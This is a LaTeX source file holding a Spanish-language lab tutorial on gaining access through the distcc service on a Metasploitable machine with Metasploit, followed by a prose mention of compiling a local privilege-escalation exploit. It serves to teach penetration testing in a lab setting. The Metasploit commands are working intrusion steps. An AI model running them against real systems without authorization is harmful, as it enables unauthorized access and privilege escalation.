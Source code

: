 \documentclass[a4,12pt,onecolum]{article}
\begin{document}
En este caso, vamos a realizar una elevación de privilegios a través de una vulnerabilidad del servicio Distcc.

\begin{enumerate}
	\item Accedemos a la consola de Metasploit.
\begin{verbatim}
$ sudo msfconsole
\end{verbatim}

	\item Accedemos al módulo relativo a distcc.
\begin{verbatim}
msf > search distcc
msf > use exploit/unix/misc/distcc_exec
\end{verbatim}

	\item Fijamos los parámetros del ataque y ejecutamos.
\begin{verbatim}
msf auxiliary(distcc_exec) > set RHOSTS metasploitable
msf auxiliary(distcc_exec) > exploit
\end{verbatim}

  \item Tal y como nos aparece en la figura \ref{fig:metaele1} hemos conseguido acceder a la víctima como demonio del servicio distcc.

  \begin{figure}[htbp]
  \centering
  \includegraphics[width=0.9\textwidth]{./images/MetaEle1.png}
  \caption{Elevación de privilegios: ejecución de distcc.}
  \label{fig:metaele1}
  \end{figure}

  \item Una vez como daemon descargamos y compilamos el exploit con el que vamos a proceder a hacer la elevación de privilegios. El código del exploit ejecuta el shell que se encuentra en /tmp/run y crea un socket al que se le indica el pid del proceso vulnerable.


\end{enumerate}
\end{document}
